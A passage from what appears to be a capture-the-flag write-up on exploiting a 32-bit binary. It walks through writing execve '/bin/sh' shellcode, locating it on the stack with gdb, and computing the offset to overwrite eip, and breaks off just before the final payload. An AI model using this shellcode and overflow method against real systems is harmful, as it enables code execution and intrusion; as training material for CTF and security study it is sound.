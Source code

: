 Once we pass the check, we can simply inject shellcode with the help of the given leak. 


## Exploitation:
Now that we have understood the binary, let's begin with the exploitation part! In my exploit I have chosen car '1' and race '2'. Thus my access code is `0xc0cac0de`. You can choose any other car or race, however your token key will be different for each case, depending on your access key. 

The shellcode we wish to inject can either be found online [here](http://shell-storm.org/shellcode/) or one may choose to write the shellcode! For the sake of writeup, below I have explained how you can write your own shellcode! 

### Shellcode:
While writing the shellcode, it is necessary to note which syscall we are going to call. In this case I will be making use of an `execve` shellcode. The arguments to the `execve` shellcode are (shown in terms of registers eax, ebx, ecx and edx):
	- `eax` = syscall number i.e `0xb` for the execve shellcode 32 bit.
	- `ebx` should contain a pointer to the string `/bin/sh`.
	- `ecx` and `edx` must be nulled out. 
	
Thus our shellcode may look something like this:
```python=
shell = 'xor ecx, ecx\n'		# ecx = 0
shell += 'xor edx, edx\n'		# edx = 0
shell += 'push eax\n'
shell += 'push 0x68732f\n'
shell += 'push 0x6e69622f\n'		# the string "/bin/sh" is pushed onto the stack
shell += 'mov ebx, esp\n'		# ebx now points to "/bin/sh"
shell += 'push 0xb\n'			# setting the syscall number into eax.
shell += 'pop eax\n'		
shell += 'int 0x80\n'			# syscall
```

Another factor we haven't looked into is the leak. Once we place our shellcode on the stack, while overflowing, we might have to give the location where our shellcode is present, so that the program can jump to that location and begin executing the shellcode. The leak provided is a stack leak. And the stack size is `0x30` bytes. 
We can find our shellcode in memory like this. 
```
gdb-peda$ x/10i $ebp-0x2c
   0xffa1a1fc:	xor    ecx,ecx
   0xffa1a1fe:	xor    edx,edx
   0xffa1a200:	push   eax
   0xffa1a201:	push   0x68732f
   0xffa1a206:	push   0x6e69622f
   0xffa1a20b:	mov    ebx,esp
   0xffa1a20d:	push   0xb
   0xffa1a20f:	pop    eax
   0xffa1a210:	int    0x80
   0xffa1a212:	popa   
gdb-peda$ 

```
Thus we note that our shellcode is present at location $ebp-0x2c. With the given leak we can find that eip is located 0x13 bytes below the leaked address. 
```
gdb-peda$ x/x $ebp+0x4
0xffa1a22c:	0xffa1a1fc
gdb-peda$ p 0xffa1a23f - 0xffa1a22c
$4 = 0x13
gdb-peda$ 

```
Since eip is 4 bytes above ebp, while giving the buffer we will have subtract the length of our shellcode from `0x30` in order to find the size. 
Thus our payload will look something like this:
